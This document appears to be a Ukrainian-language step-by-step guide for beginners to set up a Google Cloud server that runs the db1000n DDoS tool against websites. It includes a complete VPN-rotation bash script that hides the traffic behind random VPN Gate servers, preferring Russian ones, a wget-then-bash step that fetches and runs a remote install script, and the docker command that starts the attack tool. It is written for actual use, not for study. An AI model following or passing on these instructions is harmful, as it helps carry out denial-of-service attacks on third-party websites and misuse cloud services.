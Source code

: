 # Інструкція для новачків як встановити на виділений сервер Google Cloud

Спочатку треба зареєструватися та створити виділений сервер в cloud.google.com або іншому сервісі.
cloud.google.com дають при старті 300$ для використання серверів - цього повинно хватати надовго.
Робимо все по інструкції як вказано [тут](https://telegra.ph/%D0%86nstrukc%D1%96ya-yak-DDositi-sajti-za-dopomogoyu-server%D1%96v-02-26) тільки в пункті 6 вибираємо **e2-medium** тому що **e2-micro** не тягне.
Доходимо до пункту 8.

## Спочатку оновлюємо систему

Для копіювання і вставлення команд в командному рядку працюють комбінації клавіш **ctrl**+**C** **ctrl**+**V**:

```bas
sudo apt-get update
```

Потім встановлюємо программи (виконуємо команди по одній):

```bash
sudo apt-get install screen openvpn
```

Попросить підтвердження встановлення. Нажимаємо **y** та **Enter**

## Создаємо конфіг для VPN

```bash
nano autovpn3.sh
```

Відкриється редактор, копіюємо і вставляємо туди текст нижче (**ctrl**+**C** **ctrl**+**V**):

```bash
#!/bin/bash

# autovpn3, coded by MiAl,
# you can leave a bug report on the page: https://miloserdov.org/?p=5858
# сообщить об ошибке на русском вы можете на странице: https://HackWare.ru/?p=15429

# you can change these parameters:
country='RU' # empty for any or JP, KR, US, TH, etc.
useSavedVPNlist=0 # set to 1 if you don't want to download VPN list every time you restart this script, otherwise set to 0
useFirstServer=0 # set the value to 0 to choose a random VPN server, otherwise set to 1 (maybe the first one has higher score)
vpnList='/tmp/vpns.tmp'
proxy=0 # replace with 1 if you want to connect to VPN server through a proxy
proxyIP=''
proxyPort=8080
proxyType='socks' # socks or http
# don't change this:
counter=0
VPNproxyString=''
cURLproxyString=''
if [ $proxy -eq 1 ];then
    echo 'We will use a proxy'
    if [ -z "$proxyIP" ]; then
        echo "To use a proxy, you must specify the proxy's IP address and port (hardcoded in the source code)."
        exit
    else
        if [ "$proxyType" == "socks" ];then
            VPNproxyString=" --socks-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy socks5h://$proxyIP:$proxyPort "
        elif [ "$proxyType" == "http" ];then
            VPNproxyString=" --http-proxy $proxyIP $proxyPort "
            cURLproxyString=" --proxy http://$proxyIP:$proxyPort "
        else
            echo 'Unsupported proxy type.'
            exit
        fi
    fi
fi

if [ $useSavedVPNlist -eq 0 ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
elif [ ! -s $vpnList ];then
    echo 'Getting the VPN list'
    curl -s $cURLproxyString https://www.vpngate.net/api/iphone/ > $vpnList
else
    echo 'Using existing VPN list'
fi

while read -r line ; do
    array[$counter]="$line"
    counter=$counter+1
done < <(grep -E ",$country" $vpnList)
CreateVPNConfig () {
    if [ -z "${array[0]}" ]; then
        echo 'No VPN servers found from the selected country.'
        exit
    fi

    size=${#array[@]}

    if [ $useFirstServer -eq 1 ]; then
        index=0
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    else
        index=$(($RANDOM % $size))
        echo ${array[$index]} | awk -F "," '{ print $15 }' | base64 -d > /tmp/openvpn3
    fi

    echo 'Choosing a VPN server:'
    echo "Found VPN servers: $((size+1))"
    echo "Selected: $index"
    echo "Country: `echo ${array[$index]} | awk -F "," '{ print $6 }'`"
}

while true
    do
        CreateVPNConfig
        echo 'Trying to start OpenVPN client'
        sudo openvpn --config /tmp/openvpn3 $VPNproxyString
        read -p "Try another VPN server? (Y/N): " confirm && [[ $confirm == [yY] || $confirm == [yY][eE][sS] ]] || exit
    done
```

Для вихода нажимаємо **ctrl**+**X**, далі для збереження нажимаємо **Y** та **Enter**.
Даємо права на виконання файлу:

```bash
chmod +x autovpn3.sh
```

## Далі запускаємо VPN

Создаємо нову сессію терміналу:

```bash
screen
```

Видасть додатокве вікно натискаємо там **Enter**.
Запускаємо скрипт VPN:

```bash
sudo ./autovpn3.sh
```

Якщо видає помилку **_No VPN servers found from the selected country._** то відкриваємо ще раз конфіг на редагування:

```bash
nano autovpn3.sh
```

Ідемо на строку **_country='RU' _** і змінюємо країну на іншу, наприклад японія **JP**.
Запуститься скрипт, щоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**.

## Далі встановлюємо Docker

```bash
wget https://gist.githubusercontent.com/antl31/83229c0eaaa1d259a569cfb57ab75230/raw/b4e01a106fbe534a7bfa4930a66cf933c6366c5c/install_docker.sh

bash install_docker.sh
```

Встановиться докер та відкриється вже нова сесія терміналу, натискаємо **Enter**.

## Запускаємо скрипт

```bash
sudo docker run ghcr.io/arriven/db1000n
```

Якщо скрипт запустився та працює постійно хочаб хвилин 10 то все нормально.
Профіт.
Якщо скрипт попрацював трохи і вийшов - змінюйте країну і запускайте наново.

Шоб вийти з цієї сессії терміналу потрібно натиснути **ctrl+A ctrl+D**.

Коли ви вийдете то можете закривати вікно все працює.
Через деякий час щоб перевірити як працює скрипт треба ще раз відкрити через пункт **Open in browser window** в панелі керування Google Cloud.

Тут треба навчитися користуватися вікнами **screen**.

```bash
screen -ls
```

Побачимо вивід команди:

```
There are screens on:
4688.pts-0.instance-5 (03/04/22 11:12:13) (Detached)
2219.pts-0.instance-5 (03/04/22 09:59:36) (Detached)
2 Sockets in /run/screen**
```

Тут ми бачимо що запущені 2 сесії (номери на початку 2 і 3 строки у вас будуть інші).
Дивимося по часу запуску що одна запущена раніше, інша пізніше.
Значить та шо раніше там впн, та шо пізніше - наша программа для ддос.
Щоб перейти на вікно з программою потрібно написати

```bash
screen -r 4688
```

Номер у вас буде свій, вписуєте той шо в вас.
Ви перейдете на термінал з запущеною программою.

Якщо у вас виникають проблеми із запуском то зверніться в чат телеграм: https://t.me/+md-77jub3zQyOWRi
